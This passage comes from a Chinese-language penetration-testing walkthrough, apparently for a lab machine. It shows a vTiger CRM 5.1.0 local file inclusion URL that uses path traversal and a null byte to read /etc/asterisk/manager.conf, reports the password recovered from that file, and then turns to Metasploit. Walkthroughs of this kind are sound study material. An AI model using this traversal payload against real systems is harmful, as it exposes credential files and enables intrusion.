 如果我们将前面的 URL 修改为

```
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00
```

我导航到这个页面(使用源代码美化输出)

![Screenshot-2019-09-03-at-00.55.05](img/0a4f87bb30a69b8d5a500dc078285053.png)

https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00

我找到密码 **jEhdIekWmdjE**

您可以从那里继续**步骤 5**

* * *

> 使用 Metasploit、meterpreter、nmap - interactive 和 Burp 的变体

## **步骤 3c -访问网站**

我们知道应用程序的版本是 **vTiger CRM 5.1.0**

我们将使用 **Metasploit** ，这是一个渗透测试框架，使黑客攻击变得简单。这是许多攻击者和防御者的必备工具

![Screenshot-2019-08-02-at-21.14.13](img/2fb5761a131675409fefeb7123464487.png)

